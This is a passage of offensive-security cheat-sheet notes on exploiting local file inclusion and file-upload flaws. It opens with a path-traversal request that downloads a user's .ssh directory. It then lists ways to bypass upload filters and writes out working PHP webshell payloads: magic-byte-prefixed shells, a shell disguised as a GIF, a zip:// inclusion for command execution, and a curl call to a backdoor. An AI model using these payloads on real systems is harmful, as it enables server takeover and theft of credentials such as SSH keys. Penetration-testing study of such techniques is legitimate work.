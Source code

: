 ```bash
http://192.168.180.231/?cwd=../../../../../../../../home/remi&file=.ssh&download=true
```

#### File Upload Vulns (Executable)

File signatures: "https://en.wikipedia.org/wiki/List_of_file_signatures"
File signatures complete: "https://garykessler.net/library/file_sigs.html"
ASP Upload: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP"
PHP Extensions: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst"

THINK ABOUT RCE WHENEVER YOU HAVE LFI.

THINK ABOUT LOCAL FILE INCLUSION.

- For PDF bypass, try to add the "%PHP-1.7\n%" thing at the top and change the name to reverse.pdf.php.
- You can upload as cmd.jpg then intercept and switch to cmd.jpg.php & cmd.php.jpg.
- Wherever you can upload files, see what files you are allowed to upload. If .php files are blacklisted, then you can try to use .pHP, .phps, .php7, pht, phpt, phtml, php3, php4, php5, php6 instead. If .sh files are blacklisted, then you can try to use .zsh instead.
- Whitelisting may be able to be bypassed through methods such as adding a null byte injection, "payload.php\x00.png", "shell.php%00.txt", "echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png", or by using double extensions for the file, "shell.txt.php"
- Try to inject characters before, after extension, "%20, %0a, %00, %0d0a, /, .\, ."

```bash
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png
echo "<?php system(\$_REQUEST['cmd']); ?>" >> mime_shell.php.png
```

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif #	Create malicious image
```

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php #	Create malicious zip archive 'as jpg'
/index.php?language=zip://shell.zip%23shell.php&cmd=id #	RCE with malicious uploaded zip
```

- Try changing the Content-Type header in Burp to something that you know it accepts, such as s image/jpeg, image/gif, image/png.
- See if you can intercept and modify the files, naming the php file shell.txt initially, then changing it to shell.php.
- With Windows, replace php with aspx in the examples if you don't know what to use.
- If you're able to upload a simple webshell, then see if you can execute commands:
- Inspect website image to try and uncover directory, modify accepted extensions, or even remove the check
- Try to modify content type to 'image/jpg', 'image/jpeg', 'image/png', 'image/gif'

```bash
curl http://example.com/meteor/subdir/simple-backdoor.pHP?cmd=dir
```

Here's a crazy good resource for a high level gauntlet of what you can do, "https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload".
